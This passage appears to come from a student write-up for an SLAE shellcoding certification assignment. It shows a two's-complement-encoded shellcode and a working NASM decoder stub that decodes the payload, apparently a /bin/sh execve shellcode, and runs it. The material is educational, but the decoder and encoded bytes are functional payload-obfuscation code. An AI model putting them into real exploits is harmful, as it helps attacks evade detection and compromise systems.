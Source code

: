``Example of execution of two_complement_encoder.py``

````
\xcf\x40\xb0\x98\xd1\xd1\x8d\x98\x98\xd1\x9e\x97\x92\x77\x1d\xb0\x77\x1e\xad\x77\x1f\x50\xf5\x33\x80
````
``Shellcode generated by the encoder``

## Decoding the shellcode on the fly

The decoder will use the *neg* instruction to revoke the two's complement method applied on the encoding process. After that, it will be possible to execute the payload encoded.

````
; Filename:   two_complement_decoder.nasm
; Author:     Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       58 bytes (33 bytes for decoder + 25 bytes for payload)
; Purpose:    Assignment #4 of SLAE certification. This shellcode decodes an encoded shellcode using the two's complement method.

global _start			

section .text
_start:
	jmp short call_shellcode

load_and_clean:
        pop esi                      ;loads EncodedShellcode on esi
        lea edi, [esi]	              ;saves a pointer of start of EncodedShellcode on edi for going through the shellcode
        xor eax, eax	              ;cleans eax register
	cdq		              ;cleans edx register

decode:
        mov dl, byte [esi + eax]     ;loads on dl the byte to be decoded
	cmp dl,0xdd                  ;checks if the byte is the terminator byte defined
        jz short EncodedShellcode    ;if so, the shellcode has been decoded and program can execute the payload
	neg dl			      ;reverses the two's complementary method
        mov byte [edi], dl	      ;substitutes the encoded byte with the decoded byte on EncodedShellcode
        inc edi		      ;increments the pointer to the next byte to be substituted
	inc eax                      ;increments the counter to allow to load the next byte on dl
        mov dl, byte [esi + eax]     ;loads the next byte on dl
        jmp decode                   ;decodes next byte

call_shellcode:

	call load_and_clean ;load the payload on esp using jmp-call-pop technique
	;very important, including the terminator character (0xdd) at the end of EncodedShellcode and avoiding the use of this character on the EncodedShellcode
	EncodedShellcode: db 0xcf,0x40,0xb0,0x98,0xd1,0xd1,0x8d,0x98,0x98,0xd1,0x9e,0x97,0x92,0x77,0x1d,0xb0,0x77,0x1e,0xad,0x77,0x1f,0x50,0xf5,0x33,0x80,0xdd
````
***It is very important to add the terminator character (0xDD) at the end of EncodedShellcode, otherwise the program will fail on its execution.***
